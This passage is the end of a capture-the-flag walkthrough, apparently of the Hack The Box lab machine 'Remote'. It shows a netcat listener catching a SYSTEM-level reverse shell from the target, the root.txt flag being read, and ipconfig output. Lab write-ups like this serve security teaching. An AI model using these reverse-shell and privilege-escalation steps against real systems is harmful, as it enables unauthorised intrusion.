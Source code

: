 <br />
Check the listener and catch the shell.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/remote]
└─$ nc -nlvp 4444                                            
listening on [any] 4444 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.180] 49817
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
{% endraw %}

<br />
Get the root.txt flag.

{% raw %}
```bash
C:\Users\Administrator\Desktop>type root.txt
type root.txt
2f0ff290987192dc848b29e231f4cc73

C:\Users\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::43d:2e9:512f:af70
   Link-local IPv6 Address . . . . . : fe80::43d:2e9:512f:af70%12
   IPv4 Address. . . . . . . . . . . : 10.10.10.180
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:6def%12
                                       10.10.10.2
```
{% endraw %}

<br />
With that, we bring Remote to an end.